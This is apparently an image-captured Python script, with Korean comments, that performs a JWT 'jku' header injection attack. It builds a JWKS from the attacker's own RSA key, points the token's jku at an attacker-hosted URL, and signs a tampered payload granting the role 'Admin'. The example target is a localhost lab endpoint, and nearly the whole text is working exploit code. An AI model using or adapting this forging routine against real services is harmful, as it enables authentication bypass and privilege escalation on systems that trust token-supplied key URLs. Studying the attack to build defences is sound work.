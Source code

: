 ```python
    newjwks["use"] = "sig"
    newjwks["e"] = str(e.decode('UTF-8'))
    newjwks["n"] = str(n.decode('UTF-8').rstrip("="))
    return newjwks


# 공격자의 jku 경로에 포함시킬 JWK 생성
def jwksGen(headDict, paylDict, jku, privKey, kid="skitttles"):
    newHead = headDict
    nowtime = str(int(datetime.now().timestamp()))
    
    # 개인키 가져옴
    key = RSA.importKey(open(myPrivKeyPath).read())
    pubKey = key.publickey().exportKey("PEM")
    privKey = key.export_key(format="PEM")
    new_key = RSA.importKey(pubKey)

    # 공개키로 n, e 값 생성
    n = base64.urlsafe_b64encode(new_key.n.to_bytes(256, byteorder='big'))
    e = base64.urlsafe_b64encode(new_key.e.to_bytes(3, byteorder='big'))
    privKeyName = myPrivKeyPath
    newjwks = buildJWKS(n, e, kid)
    newHead["jku"] = jku
    newHead["alg"] = "RS256"
    key = RSA.importKey(privKey)
    newContents = genContents(newHead, paylDict)
    newContents = newContents.encode('UTF-8')

    # 토큰 서명
    h = SHA256.new(newContents)
    signer = PKCS1_v1_5.new(key)
    try:
        signature = signer.sign(h)
    except:
        cprint("Invalid Private Key", "red")
        exit(1)
    
    # 서명 값 Base64 인코딩
    newSig = base64.urlsafe_b64encode(signature).decode('UTF-8').strip("=")

    # 생성된 JWK 포맷에 맞추어 줌
    jwksout = json.dumps(newjwks,separators=(",",":"), indent=4)
    jwksbuild = {"keys": []}
    jwksbuild["keys"].append(newjwks)
    fulljwks = json.dumps(jwksbuild,separators=(",",":"), indent=4)

    # jwks_jwttool_RSA_{현재시간}.json 파일에 JWK 값 출력
    jwksName = "jwks_jwttool_RSA_"+nowtime+".json"
    with open(jwksName, 'w') as test_jwks_out:
            test_jwks_out.write(jwksout)
        
    return newSig, newContents.decode('UTF-8'), jwksout, privKeyName, jwksName, fulljwks


if __name__ == '__main__':
    # 토큰을 변조하여 아래 딕셔너리에 대입
    headDict = {"alg": "RS256","typ": "JWT"}
    paylDict = {"account": "Bob","role": "Admin","iat": 1659430187,"aud": "https://127.0.0.1/jwt/jku"}

    # 공격자의 jwks URL을 jku 변수에 대입
    jku = "http://{my-url}/jwks.json"
    kid = "skitttles"
```